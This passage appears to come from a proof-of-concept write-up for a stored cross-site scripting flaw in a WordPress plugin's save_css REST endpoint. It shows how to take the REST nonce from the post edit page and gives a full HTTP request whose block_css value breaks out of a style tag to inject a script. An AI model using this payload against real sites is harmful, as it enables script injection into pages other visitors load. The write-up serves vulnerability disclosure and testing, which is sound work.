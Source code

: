 👉 The **X-WP-Nonce** header is missing for user authorization. Open the page source (<kbd>Ctrl</kbd>+<kbd>U</kbd>) of the post edit page:

```
view-source:http://localhost/wp-admin/post.php?post=<post_id>&action=edit
```

Search for `wpApiSettings` in the source and extract the `nonce` value.

![wpApiSettings](api_search.png "wpApiSettings")

Send the request including the **X-WP-Nonce** header with the obtained value:

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
X-WP-Nonce: f79ec79e4b
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```

**Preview post**

![Preview](preview.png "Preview")

👉 XSS succeeds. Inspect to see how the code was modified.

**View source code**
